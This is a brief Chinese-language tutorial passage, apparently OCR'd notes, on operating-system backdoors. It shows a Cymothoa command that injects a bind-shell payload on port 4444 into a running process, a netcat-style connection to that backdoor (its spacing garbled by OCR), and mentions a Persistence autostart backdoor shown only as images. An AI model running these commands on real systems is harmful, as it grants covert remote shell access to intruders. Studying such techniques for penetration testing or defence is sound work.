 ## 操作系统后门
### Cymothoa后门
Cymothoa原理是将ShellCode注入现有进程(即插进程).那么也就是说当Cymothoa宿主停止执行的时候,Cymothoa也会自动停止.
1. 选择 PID 为 982 的进程为宿主进程,选用第一类 ShellCode,指定 Pay load服务端口为4444
```shell
cymothoa -p 982 -s 1 -y 4444
```
2. 连接目标主机的后门
```shell
Ne -nvv 192.168 . 31.247 4444
```

### Persistence 后门
Persistence是一款使用安装自启动方式的持久性后门程序
1. 查看所有命令
<img src="http://wujiashuaitupiancunchu.oss-cn-shanghai.aliyuncs.com/jupyter_notebook_img/9q74dcec3qt.png" width="600px" />

2. 创建后门
<img src="http://wujiashuaitupiancunchu.oss-cn-shanghai.aliyuncs.com/jupyter_notebook_img/e2clc8dzkae.png" width="600px" />


